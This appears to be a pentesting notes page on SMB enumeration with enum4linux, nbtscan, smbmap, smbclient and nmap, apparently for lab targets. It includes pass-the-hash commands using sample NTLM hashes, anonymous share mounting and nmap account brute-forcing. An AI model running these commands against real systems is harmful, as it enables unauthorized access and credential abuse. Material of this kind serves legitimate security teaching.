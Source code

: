 # SMB Scanning
This module contains method sof gathering information from targets that have Samaba, or the Windows sharing service (SMB) enabled.
## Enum4LINUX
[Enum4Linux](https://github.com/portcullislabs/enum4linux) can be used to gather information from a target system via the SMB protocol as so,
```
root@attacker-machine:~# enum4linux (TARGET IP)
```

## NBTScan
[NBTScan](http://www.unixwiz.net/tools/nbtscan.html) can be used to gather information from a target system via the SMB protocol as so,
```
root@attacker-machine:~# nbtscan (TARGET IP ADDRESS)
```

## SMBMap
[SMBMap](https://github.com/ShawnDEvans/smbmap) is ool that can gather information about a remote shared FS via the SMB protocol. The basic syntax for`smbmap` is as follows,
```
root@attacker-machine:~# smbmap -H (TARGET IP ADDRESS)
```
But, if you have access to an NTLM hash, let's use `0B186E661BBDBDFFFFFFFFFFF8B9FD8B` for example, you can append the common Windows NULL string along with a colon, `aad3b435b51404eeaad3b435b51404ee` to it as,
```
aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B
```
and pass along the username, let's say `user123` for example, of the credentials to get more SMB map information like so,
```
root@attacker-machine:~# ./smbmap.py -u user123 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B' -H (TARGET IP ADDRESS)
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on (TARGET IP ADDRESS)...
[+] IP: (TARGET IP ADDRESS):445	Name: ypuffy.hackthebox.htb                             
	Disk                                                  	Permissions
	----                                                  	-----------
	user123's Files                                    	READ, WRITE
	IPC$                                              	NO ACCESS
'
```
## SMBClient
[SMBClient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) very bad software and I believe it's because there are too many variables at stake when trying to successfully use it. Your results may vary, and please do not take any authentication or listing errors as true. Test your enumerated credentials and data using other tools as well. This section describes methods for mounting and listing directories in Samba (LINUX)/Windows shares.

Sometimes, it is required to specify the SMB version number using the `-m smb(n)` argument for the NT service to allow a connection.

### Target information
Attempt to map the share without any credentials (a NULL session)
```
root@attacker-machine:~# smbclient -N -L (TARGET IP)
```
### Mounting shares
To mount a share without knowing any valid users (anonymous/guest login),
```
root@attacker-machine:~# smbclient "\\\\(TARGET IP)\\IPC\$\\" -N
```
To mount a share with an enumerated username,
```
root@attacker-machine:~# smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER)
```
To mount a share with a username and stolen NTLM hash,
```
root@attacker-machine:~# smbclient --user=(TARGET USERNAME) --pw-nt-hash -m smb3 \\\\(TARGET IP ADDRESS)\\(TARGET SHARE)\\ (NTLM HASH)
```
e.g.
```
root@attacker-machine:~# smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E
```

### File Transfers
To get a file from the target server,
```
smb> get "filename with or without spaces.txt"`
```
## NMAP
The NMAP Scripting Engine (NSE) can be used to brute-force accounts on the server,
```
root@attacker-machine:~# nmap --script smb-brute.nse -p445 (TARGET IP ADDRESS)
```
Another Nmap NSE script tyhat we can try will attempt to gather information on SMB NULL sessions and users as so,
```
root@attacker-machine:~# nmap -p 139.445 --script smb-enum-users (TARGET IP ADDRESS)
